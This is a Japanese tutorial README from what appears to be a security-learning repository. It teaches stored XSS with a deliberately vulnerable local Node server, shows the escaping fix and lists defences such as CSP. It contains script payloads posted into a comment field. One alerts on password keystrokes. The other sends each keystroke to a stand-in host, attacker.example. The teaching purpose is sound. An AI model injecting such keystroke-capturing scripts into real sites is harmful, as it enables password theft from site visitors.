

# 02-app: アプリケーション層

このフォルダのトピック:

- **XSS** (このファイル以下)
- **CSRF** → [csrf/](./csrf/)
- (今後 SQLi など追加予定)

---

# XSS (Cross-Site Scripting)

## なぜここを学ぶか

[../notes/where-security-breaks.md](../notes/where-security-breaks.md) のとおり、
HTTPS にしても **アプリ側に穴があれば password は抜かれる**。
その典型が **XSS (クロスサイトスクリプティング)**。

## XSS とは

ユーザーが入力した文字列を、サーバーが **エスケープせず HTML に埋め込んでしまう** ことで、
他の閲覧者のブラウザで攻撃者の JavaScript が実行される脆弱性。

---

## 手順

### 1. 弱いコードを動かす

```bash
node weak-server.js
```

ブラウザで http://localhost:3001 を開く。

### 2. 攻撃を試す (まずは alert版で目に見える形にする)

コメント欄に下記を投稿する。

```html
<script>
  // ページ内の password 入力を、入力するたびに alert で見せる
  document.getElementById('password').addEventListener('input', e => {
    alert('盗まれた: ' + e.target.value);
  });
</script>
```

投稿後にページがリロードされたら、**パスワード欄に1文字打つ**。
即座に `盗まれた: a` のようなアラートが出る。
これが「攻撃者の JS が他人のページ上で実行されている」動かぬ証拠。

**HTTPS にしていても防げない。**
なぜなら攻撃コードは「正規のサーバーから配られた正規のページの一部」として
ブラウザに渡っているため、TLS は何も防げない。

### 2-2. (発展) 現実的な攻撃: fetch版

実際の攻撃者は alert なんて出さない。気づかれず攻撃者サーバーに送る。

```html
<script>
  document.getElementById('password').addEventListener('input', e => {
    fetch('http://attacker.example/steal?p=' + encodeURIComponent(e.target.value));
  });
</script>
```

画面上には何も起きないが、DevTools の **ネットワークタブ** を開いた状態で
パスワード欄に文字を打つと、`steal?p=a` というリクエストが飛んでいるのが見える
(`attacker.example` は実在しないので赤い失敗リクエストになる。それでよい)。

これが「気づかれず password が抜かれる」現実の姿。



打鍵するたびに `steal?p=1` → `steal?p=11` → `steal?p=111` ... と
途中入力も含めて全部が攻撃者サーバーに送られているのが分かる。
攻撃者は自分のサーバーログを `grep '?p='` するだけで全訪問者の入力を回収できる。

### 投稿時の注意

貼り付けるのは **`<script>` タグを含めた全体**。
中身の JS だけを貼ると、ただの文字列として表示されるだけで攻撃にならない。

### 3. 直したコードを動かす

```bash
node fixed-server.js
```

同じ `<script>` を投稿しても、ブラウザには
`&lt;script&gt;...` というただの文字列として表示される。

差分はこれだけ:

```diff
- ${comments.map(c => `<li>${c}</li>`).join('')}
+ ${comments.map(c => `<li>${escapeHtml(c)}</li>`).join('')}
```

---

## こうしておけば守れた、の整理

| 対策 | 何をしているか |
|---|---|
| **出力時の HTML エスケープ** (今回の修正) | `<` `>` を `&lt;` `&gt;` に変換。攻撃文字列を「ただの文字」として表示する |
| **テンプレートエンジンの自動エスケープを使う** | EJS, React, Vue などは標準でエスケープしてくれる。`{{ }}` や JSX の `{}` |
| **CSP (Content-Security-Policy)** | ブラウザに「このページでは外部スクリプト実行や inline `<script>` を禁止」と指示する HTTP ヘッダ |
| **入力時のバリデーション** | 補助的。ただし「入力チェックだけ」では不十分。出力時のエスケープが本丸 |

## ポイント

- **入力を信用しない、ではなく「出力時にエスケープする」が本筋。**
  同じ文字列が HTML / JS / URL / SQL の文脈ごとに違うエスケープが必要なので、
  入力時に一律に処理しても抜けが出る。
- React や Vue を使っていれば、JSX の `{x}` や Vue の `{{ x }}` は自動でエスケープされる。
  危ないのは `dangerouslySetInnerHTML` や `v-html` を使うとき。
- **HTTPS と XSS は別のレイヤーの話**。両方やる必要がある。
